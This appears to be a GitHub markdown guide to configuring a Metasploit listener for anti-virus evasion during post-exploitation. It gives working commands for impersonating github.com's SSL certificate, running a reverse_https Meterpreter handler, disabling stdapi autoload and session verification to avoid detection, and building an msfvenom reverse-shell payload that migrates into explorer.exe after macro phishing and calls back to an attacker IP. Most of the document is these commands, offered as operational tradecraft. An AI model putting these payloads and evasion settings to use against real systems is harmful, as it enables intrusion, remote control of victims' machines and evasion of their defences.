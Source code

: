 
# Metasploit Listener Configuration

This guide provides advanced Metasploit `multi/handler` module options that can help you bypass anti-virus detection and improve stealth during post-exploitation. These configurations include using SSL for encrypted communication and disabling certain features that are often flagged by anti-virus software.

## 1. Using SSL for Encrypted Communication

Metasploit allows you to use SSL for encrypted connections by setting the `SSL` option to `true`. You can use a custom self-signed certificate for this purpose. Below are the steps to configure the listener with SSL.

### Generate or Impersonate an SSL Certificate
You can impersonate an SSL certificate using the following Metasploit module:

```bash
# Impersonate an SSL Certificate
use auxiliary/gather/impersonate_ssl
set RHOSTS www.github.com
exploit
```
### Optionally, self generate a cert with OpenSSL
```bash
# PowerShell
. "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" req -new -newkey rsa:2048 -x509 -sha256 -days 365 -nodes -keyout priv.key -out cert.crt -subj "/C=GB/ST=England/L=London/O=FictionalLtd/OU=IT Department/CN=fictionalltd.co.uk/emailAddress=admin@fictionalltd.co.uk" > $null 2>&1; Get-Content priv.key, cert.crt | Set-Content Certificate.pem; $fullPath = (Get-Item Certificate.pem).FullName.Replace('\', '/'); Write-Output "`n`n[+] Done! `n[*] Run in Metasploit: `n[*] set HandlerSSLCert $fullPath"

# Linux
openssl req -new -newkey rsa:2048 -x509 -sha256 -days 365 -nodes -keyout priv.key -out cert.crt -subj "/C=GB/ST=England/L=London/O=FictionalLtd/OU=IT Department/CN=fictionalltd.co.uk/emailAddress=admin@fictionalltd.co.uk" >/dev/null 2>&1 && cat priv.key cert.crt > Certificate.pem && fullPath=$(realpath Certificate.pem) && echo -e "\n\n[+] Done! \n[*] Run in Metasploit: \n[*] set HandlerSSLCert $fullPath"

# When using Linux, ensure SSL is configured as such
# Open openssl.cnf
nano /etc/ssl/openssl.cnf

# Ensure CipherString is set to the value below
CipherString=DEFAULT
```

### Configure the Metasploit Listener with SSL

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST <your_ip>
set LPORT <your_port>
set HandlerSSLCert C:/Users/Hacker/Desktop/Certificate.pem
set StagerVerifySSLCert true
exploit
```

This configuration enables SSL for the listener and uses the specified certificate (`Certificate.pem`) for the connection. This helps encrypt the communication between the client and the server, reducing the chance of detection.

## 2. Disabling AutoLoading of `stdapi`

The `stdapi` extension in Meterpreter provides default commands and functionality, but it can be detected by anti-virus due to its signature in memory. To avoid detection, you can disable the automatic loading of `stdapi` and load it manually after the session is established.

### Disable `stdapi` Autoloading

```bash
set AutoLoadStdapi false
```

This prevents the `stdapi` extension from loading automatically, which can make the Meterpreter session appear less suspicious.

### Manually Load `stdapi` After Gaining a Shell

Once the reverse shell is established, you can manually load `stdapi` to gain full Meterpreter functionality:

```bash
meterpreter> load stdapi
```

## 3. Disabling `AutoVerifySession`

The `AutoVerifySession` option sends an additional connection to verify the session's health. This behavior can also be flagged by anti-virus systems. Disabling it reduces the noise generated by the connection.

### Disable AutoVerifySession

```bash
set AutoVerifySession false
```

This reduces the likelihood of anti-virus detection by limiting the number of connections initiated by Meterpreter.

## 4. Patience
If a meterpreter shell session has been established. Be patient, wait a minimum of 10 minutes before loading stdapi and dropping into a shell. Letting the shell "mature" before operating helps reduce detection.

## 5. Process Migration
In some instances, it may be necessary to migrate off a process. For example, if phishing with Macros the process will spawn under word (WINWORD.exe). Metasploit can be configured to migrate over to a more stable process such as explorer.exe, in the event WINWORD.exe is terminated.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.194 LPORT=8080 -f csharp prependmigrateproc=explorer.exe prependmigrate=true
```
